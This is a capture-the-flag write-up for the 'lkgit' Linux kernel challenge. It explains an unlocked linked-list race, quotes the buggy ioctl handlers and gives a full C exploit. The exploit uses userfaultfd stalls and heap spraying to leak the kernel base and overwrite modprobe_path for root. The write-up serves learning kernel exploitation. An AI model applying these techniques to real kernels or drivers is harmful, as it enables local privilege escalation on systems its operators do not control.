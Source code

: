 # lkgit

*modprobe_path & userfaultfd & race contidition*

## vulnerability

The vulnerability is quite straight forward. Operations to the `hash_object` linked lists are not locked, thus read and write to the linked list may cause a race condtion. For example, when reading one node by

```c
static long lkgit_get_object(log_object *req) {
	long ret = -LKGIT_ERR_OBJECT_NOTFOUND;
	char hash_other[HASH_SIZE] = {0};
	char hash[HASH_SIZE];
	int target_ix;
	hash_object *target;
	if (copy_from_user(hash, req->hash, HASH_SIZE))
		goto end;

	if ((target_ix = find_by_hash(hash)) != -1) {
		target = objects[target_ix];
		if (copy_to_user(req->content, target->content, FILE_MAXSZ))
			goto end;

		// validity check of hash
		get_hash(target->content, hash_other);
		if (memcmp(hash, hash_other, HASH_SIZE) != 0)
			goto end;

		if (copy_to_user(req->message, target->message, MESSAGE_MAXSZ))
			goto end;
		if (copy_to_user(req->hash, target->hash, HASH_SIZE)) 
			goto end;
		ret = 0;
	}

end:
	return ret;
}
```

we may block the kernel execution using *userfaultfd* at the 3rd access to userspace, which copies the `message` to user space. In the *userfaultfd* handler thread we free this node and spray the kernel with *seq_operations* of *shm* and resume the kernel execution to take the freed chunk. The next copy of `hash` will leak data in these kernel data structures and lead to a kernel load address leaking.



​	Likely, we may cause an AAW when modifying a node by

```c
static long lkgit_amend_message(log_object *reqptr) {
	long ret = -LKGIT_ERR_OBJECT_NOTFOUND;
	char buf[MESSAGE_MAXSZ];
	log_object req = {0};
	int target_ix;
	hash_object *target;
	if(copy_from_user(&req, reqptr->hash, HASH_SIZE))
		goto end;

	if ((target_ix = find_by_hash(req.hash)) != -1) {
		target = objects[target_ix];
		// save message temporarily
		if (copy_from_user(buf, reqptr->message, MESSAGE_MAXSZ))
			goto end;
		// return old information of object
		ret = lkgit_get_object(reqptr);
		// amend message
		memcpy(target->message, buf, MESSAGE_MAXSZ);
	}

	end:
		return ret;
}
```

we block the kernel execution at the 2nd *copy_from_user*, then free the current node. Considering the struct *hash_object* has the same size as *log_object.message*, which is allocated to the kernel heap and its value is fully user-controllable. We invoke a *lkgit_hash_object* in *userfaultfd* thread to take the freed chunk back by a *log_object.message* and put a pointer to *modprobe_path* in it. The pointer will be taken as `target->message` and write what we want to it, giving us the opportunity to overwrite *modprobe_path*.



## exploitation

in the top level we 

1. add a node, then read it. During reading we block kernel execution by *userfaultfd*. In handler thread we free the node by adding a same node, then we spray the kerenl by opening */proc/self/stat*. Then we resume kernel execution, giving us pointers in *seq_operation*
2. add a node again, then we amend it. During amending we block kernel execution. Free the node then take the chunk back with a *log_object.message* by adding a new node. The content of the *message* will be pointer to *modprob_path*, which will be taken as *target->message* when the blocked kernel resumes execution.



The exeloitation is rather simple so I will not explain it step by step

```c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <stdio.h>
#include <string.h>

#include "kernelpwn.h"
#include "src/include/lkgit.h"

#define SPRAYCOUNT 0x20


int fd_lkgit;
unsigned long kernel_load_base;
unsigned long modprobe_path;


// use this function as a template
void* uffd_handler(void* arg){
    struct uffd_msg msg;
    int fault_count = 0;
    unsigned long uffd = (unsigned long) arg;
    char *page = NULL;
    struct uffdio_copy uc;
    unsigned long nread;

    if (page == NULL) {
        page = mmap(NULL, PAGESIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (page == MAP_FAILED) ErrExit("mmap");
    }

    for(;;){
        struct pollfd pollfd;
        int nready;
        pollfd.fd = uffd;
        pollfd.events = POLLIN;
        nready = poll(&pollfd, 1, -1);

        // while(1);   // uncomment this if you just need to hang the kernel
        
        switch(fault_count){
            case 0:{
                // leak kernel load base
                hash_object obj1;
                obj1.content = "abcd";
                obj1.message = "ebgh";
                ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj1);
                int spray[SPRAYCOUNT];
                for(int i=0;i<SPRAYCOUNT;i++){
                    spray[i]=open("/proc/self/stat", O_RDONLY);
                    if(spray[i]==-1) ErrExit("[-] open error2");
                }
                for(int i=0;i<SPRAYCOUNT;i++) close(spray[i]);
                break;
            }
            case 1:{
                hash_object obj2;
                obj2.content = "abcd";
                obj2.message = "ebgh";
                ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj2);
                unsigned long buf[4];
                buf[3] = modprobe_path;
                obj2.message = (char*)buf;
                obj2.content = "ijkl";
                ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj2);
                break;
            }
        }

        if(fault_count == 1){
            memcpy(page, "/win.sh\00", 8);
        }
        fault_count++;
        nread = read(uffd, &msg, sizeof(msg));
        uc.src = (unsigned long)page;
        uc.dst = msg.arg.pagefault.address & ~(PAGESIZE - 1);
        uc.len = PAGESIZE;
        uc.copy = 0;
        uc.mode = 0;
        if (ioctl(uffd, UFFDIO_COPY, &uc) == -1) ErrExit("ioctl-UFFDIO_COPY");
    }
}


int main(){
    if((fd_lkgit = open("/dev/lkgit", O_RDWR)) == -1) ErrExit("[-] open error1");
    
    // leak kernel load base
    hash_object obj1;
    obj1.content = "abcd";
    obj1.message = "ebgh";
    ioctl(fd_lkgit, LKGIT_HASH_OBJECT, &obj1);
    void* hang_mem = get_mem_hang(5);
    log_object* obj2 = (log_object*)(hang_mem+0x1000-0x50);
    memcpy(obj2->hash, obj1.hash, HASH_SIZE);
    obj2 = (log_object*)(hang_mem+0x3000-0x50);
    memcpy(obj2->hash, obj1.hash, HASH_SIZE);
    obj2 = (log_object*)(hang_mem+0x1000-0x50);
    RegisterUserfault(hang_mem, 5, uffd_handler);
    ioctl(fd_lkgit, LKGIT_GET_OBJECT, obj2);
    printf("[*] leak kernel address : 0x%lx\n", *(unsigned long*)&obj2->hash);
    kernel_load_base = *(unsigned long*)&obj2->hash - 0x1adc20;
    modprobe_path = kernel_load_base+0xC3CB20;
    printf("[*] kernel load @ 0x%lx\n", kernel_load_base);
    printf("[*] modprobe_path load @ 0x%lx\n", modprobe_path);

    // overwrite modprobe_path
    obj2 = (log_object*)(hang_mem+0x3000-0x50);
    ioctl(fd_lkgit, LKGIT_AMEND_MESSAGE, obj2);

    system("./trigger");

    return 1;
}
```



​	The struct *log_object* we use to block the kernel execution will always be put like this

![memorylayout](pic/memorylayout.png)

​	Thus when the kernel want to read or write to the *log_object.message* filed in the user space, the uffd thread will be trigerred and we will do things there.





### tip

​	When reading the */proc/kallsyms* in the VM, I found that the symbol *modprob_path* does not exist. The way to find it is by debuging the kernel. By putting a break in *call_usermodhelper_setup*, we are able to get the address of the symble by reading the first argument of that call.

​	For more detain reffer to 

1. https://github.com/smallkirby/kernelpwn/blob/master/technique/modprobe_path.md
2. https://github.com/smallkirby/kernelpwn/blob/master/important_config/KALLSYMS_ALL.md